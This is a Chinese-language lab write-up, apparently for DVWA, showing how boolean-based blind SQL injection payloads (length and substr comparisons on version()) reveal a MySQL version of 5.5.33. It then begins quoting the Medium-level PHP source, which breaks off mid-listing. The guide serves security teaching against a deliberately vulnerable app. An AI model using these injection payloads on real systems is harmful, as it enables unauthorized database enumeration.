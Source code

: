 #### 猜测版本号

查询MySQL版本语句为

```mysql
select version();
```



首先测试版本号的长度 

​	`length()` 函数获取字符串长度

​	`substr( string, start, length)` 函数截取字符串

​	用 `substr()` 函数提取返回的版本号字符串，使用 `length()` 函数和我们的猜测值比较是否相等

```mysql
# 分别测试以下语句
1' and length(substr((select version()),1)) = 1 #
1' and length(substr((select version()),1)) = 2 #
1' and length(substr((select version()),1)) = 3 #
1' and length(substr((select version()),1)) = 4 #
1' and length(substr((select version()),1)) = 5 #
1' and length(substr((select version()),1)) = 6 #
```

直到 `1' and length(substr((select version()),1)) = 6 #`，返回查询成功，则说明版本号为六位

![image-20220823164305127](.\Lab7_SQL_Injection.assets\image-20220823164305127.png)



然后测试出版本号

周所周知，一般版本号都是 x.x.x.x 之类的组成 ( 'x' 代表数字)，而 MySQL 一般为 x.x.xx

进行逐个尝试或猜测

```mysql
1' and substr((select version()),1,1) = '5' #
1' and substr((select version()),2,1) = '.' #
1' and substr((select version()),3,1) = '5' #
1' and substr((select version()),4,1) = '.' #
1' and substr((select version()),5,1) = '3' #
1' and substr((select version()),6,1) = '3' #
```

![image-20220823164749777](.\Lab7_SQL_Injection.assets\image-20220823164749777.png)

最后拼接得到 MySQL 版本为 5.5.33



## Medium

### 源代码

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $exists = false;

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            $id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
```
